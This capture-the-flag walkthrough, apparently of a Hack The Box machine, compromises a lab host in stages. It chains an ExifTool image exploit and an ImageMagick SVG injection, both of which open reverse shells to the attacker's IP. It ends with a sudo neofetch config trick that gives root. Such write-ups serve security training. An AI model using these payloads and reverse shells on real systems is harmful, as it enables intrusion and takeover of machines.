




# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.68.138

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:24 BST
Nmap scan report for 10.129.68.138
Host is up (0.0027s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 208.83 seconds
"
```

```bash
nmap -p 22,80 -sC -sV 10.129.68.138

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:28 BST
Nmap scan report for 10.129.68.138
Host is up (0.0047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1281175a5ac9c600dbf0ed9364fd1e08 (RSA)
|   256 b5e55953001896a6f842d8c7fb132049 (ECDSA)
|_  256 05e9df71b59f25036bd0468d05454420 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.47 seconds
"
```

Looking at the http title, we can see that it redirects to `artcorp.htb`. We are going to update the hostname.

### Add Hostname

```bash
sudo vi /etc/hosts

"
10.129.68.138 artcorp.htb
"
```

We are going to add `artcorp.htb` to the hostname list as http is redirecting to the link

## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.68.138/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.68.138/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/20 11:29:08 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/index.php            (Status: 301) [Size: 0] [--> http://artcorp.htb]
/server-status        (Status: 403) [Size: 199]                       
                                                                      
===============================================================
2023/10/20 11:29:13 Finished
===============================================================
"
```

## **View Website**


## Enumerating the subdomain

```bash
wfuzz -u http://artcorp.htb -H "Host: FUZZ.artcorp.htb" -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --hh 0

`
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 19983

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000001494:   200        9 L      24 W       247 Ch      "dev01"        
000009543:   400        10 L     45 W       347 Ch      "#www"         
000010595:   400        10 L     45 W       347 Ch      "#mail"        

Total time: 0
Processed Requests: 19983
Filtered Requests: 19980
Requests/sec.: 0
`
```

We found `dev01.artcorp.htb` using the subdomain fuzzer.

### Update Hostname

```bash
sudo vi /etc/hosts

"
10.129.68.138 artcorp.htb dev01.artcorp.htb
"
```

# Exploitation

## dev01.artcorp.htb (exiftool vulnerability)

### View Website


Clicking `metaview` button, it will redirect us to the image upload website

### /metaview





If we upload file that isn’t image related file, it is not allowing it. Even though we did change the file extension and modified the file hex at the front

### Testing in normal case scenario



Looking at the output, it looks like a linux program called `exiftool` which is a metadata editor.

### Searching for Exiftool Exploit

```bash
searchsploit exiftool

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
ExifTool 12.23 - Arbitrary Code Execution     | linux/local/50911.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

```bash
searchsploit -x 50911

"
  Exploit: ExifTool 12.23 - Arbitrary Code Execution
      URL: https://www.exploit-db.com/exploits/50911
     Path: /usr/share/exploitdb/exploits/linux/local/50911.py
    Codes: CVE-2021-22204
 Verified: False
File Type: Python script, ASCII text executable
"
```

### Generating Reverse Shell Embedded Image

```bash
python3 50911.py -s 10.10.14.46 4444 

`

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(4444,inet_aton('10.10.14.46')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
`
```

Checking generated image’s attributes using exiftool

```bash
exiftool image.jpg

"
ExifTool Version Number         : 12.16
File Name                       : image.jpg
Directory                       : .
File Size                       : 453 bytes
File Modification Date/Time     : 2023:10:20 15:45:44+01:00
File Access Date/Time           : 2023:10:20 15:45:47+01:00
File Inode Change Date/Time     : 2023:10:20 15:45:44+01:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
...
"
```

### Listen to Reverse Shell and Exploit



Turn on the reverse shell and upload the reverse shell embedded jpeg image to the website 

```bash
nc -lvnp 4444

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.68.138.
Ncat: Connection from 10.129.68.138:36550.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 --version
Python 3.7.3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$
`
```

# Privilege Escalation

## www-data to thomas

### Monitoring Processes using pspy

Download pspy64

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Execute pspy inside the target system

```bash
./pspy64

"
2023/10/20 11:17:45 CMD: UID=0     PID=2      | 
2023/10/20 11:17:45 CMD: UID=0     PID=1      | /sbin/init 
2023/10/20 11:18:01 CMD: UID=0     PID=17262  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17261  | /usr/sbin/cron -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17260  | /usr/sbin/cron -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17259  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17258  | /usr/sbin/cron -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17263  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17264  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17266  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17267  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=0     PID=17268  | /bin/sh -c rm /tmp/* 
2023/10/20 11:18:01 CMD: UID=0     PID=17269  | cp -rp /root/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2023/10/20 11:18:01 CMD: UID=0     PID=17270  | /bin/sh -c rm /var/www/dev01.artcorp.htb/metaview/uploads/* 
2023/10/20 11:18:01 CMD: UID=0     PID=17271  | /usr/sbin/CRON -f 
2023/10/20 11:18:01 CMD: UID=1000  PID=17272  | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/10/20 11:18:01 CMD: UID=1000  PID=17273  | 
2023/10/20 11:18:01 CMD: UID=0     PID=17274  | /bin/sh -c rm /var/www/dev01.artcorp.htb/convert_images/* 
2023/10/20 11:18:01 CMD: UID=1000  PID=17275  | /bin/bash /usr/local/bin/convert_images.sh 
2023/10/20 11:18:15 CMD: UID=0     PID=17276  | /bin/sh /sbin/dhclient-script 
2023/10/20 11:18:15 CMD: UID=0     PID=17277  | /bin/sh /sbin/dhclient-script 
2023/10/20 11:18:15 CMD: UID=0     PID=17278  | /bin/sh /sbin/dhclient-script 
2023/10/20 11:18:15 CMD: UID=0     PID=17279  | /bin/sh /sbin/dhclient-script 
2023/10/20 11:18:15 CMD: UID=0     PID=17280  | /bin/sh /sbin/dhclient-script 
2023/10/20 11:18:15 CMD: UID=0     PID=17281  | 
2023/10/20 11:18:15 CMD: UID=0     PID=17282  | 
2023/10/20 11:18:15 CMD: UID=0     PID=17283  | 
2023/10/20 11:18:15 CMD: UID=0     PID=17284  |
"
```

If we look at the process, it is executing `/usr/local/bin/convert_images.sh` with the permission of user thomas.

Unfortunately, abusing PATH variables are not allowed here as it uses full path 

### Checking Convert_Images.sh

```bash
ls -l convert_images.sh

"
-rwxr-xr-x 1 root root 126 Jan  3  2022 convert_images.sh
"
```

Looking at the script, the script is not alterable

Viewing the script

```bash
cat convert_images.sh

"
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
"
```

It’s using the `mogrify` program to format the file to png.

### Checking Mogrify

Program Mogrify can be altered, but it is pointing to another program `magick`

```bash
ls -l mogrify

"
lrwxrwxrwx 1 root root 6 Aug 29  2021 mogrify -> magick
"
```

Checking the Version of mogrify

```bash
mogrify --version

"
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
"
```

Here it is not outputing Mogrify, instead it is outputing the version of ImageMagick. Looks like it’s a packaged program 

### Exploiting ImageMagick (CVE-2020-29599)

`exploit.svg` is a script directly copied from the [CVE_2020-29599 analysis blog](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html).

[Online - Reverse Shell Generator](https://www.revshells.com/)

The reverse shell (`Bash -i` Option) should be generated in base64 format

After copying base64 `Bash -i` Revshell code, replace the code with `<reverse shell code>`

```xml
<image authenticate='ff" `echo "<reverse shell code>" | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

Place the file inside `/var/www/dev01.artcorp.htb/convert_images`

> Tip: make the filename as the image attribute `xlink:href`. The exploit will not work if the filename is different
> 

### Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4443

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.68.138.
Ncat: Connection from 10.129.68.138:35026.
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$
`
```

## Thomas to Root

### Checking Sudo Permissions

```bash
sudo -l

`
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
`
```

We can use the command `/usr/bin/neofetch \"\"` in sudo permission without the root credentials

### Adding malicious configuration file

```bash
echo $XDG_CONFIG_HOME

"

```

```bash
echo "exec /bin/bash" > .config/neofetch/config.conf
```

Add a bash execution command inside the configuration file, so the root shell will be called when we call the `sudo neofetch` command.

Checking environment

```bash
env

"
SHELL=/bin/bash
SUDO_GID=1000
XDG_CONFIG_HOME=/home/thomas/.config
SUDO_COMMAND=/usr/bin/neofetch
SUDO_USER=thomas
PWD=/root
LOGNAME=root
HOME=/root
LANG=C
LS_COLORS=
GIO_EXTRA_MODULES=/usr/lib/x86_64-linux-gnu/gio/modules/
TERM=unknown
USER=root
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/xpg4/bin:/usr/sbin:/sbin:/usr/etc:/usr/libexec
SUDO_UID=1000
MAIL=/var/mail/root
OLDPWD=/home/thomas
_=/usr/bin/env
"
```

### Exploit

```bash
XDG_CONFIG_HOME=~/.config sudo neofetch

"
root@meta:/home/thomas#
"
```

# Reference

- [https://nanobytesecurity.com/2021/09/13/web-config-file-upload-bypass.html](https://nanobytesecurity.com/2021/09/13/web-config-file-upload-bypass.html)
- [https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/)
- [https://www.kali.org/tools/ncurses-hexedit/](https://www.kali.org/tools/ncurses-hexedit/)
- [https://www.cybersecurity-help.cz/vdb/SB2020121303](https://www.cybersecurity-help.cz/vdb/SB2020121303)
- [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)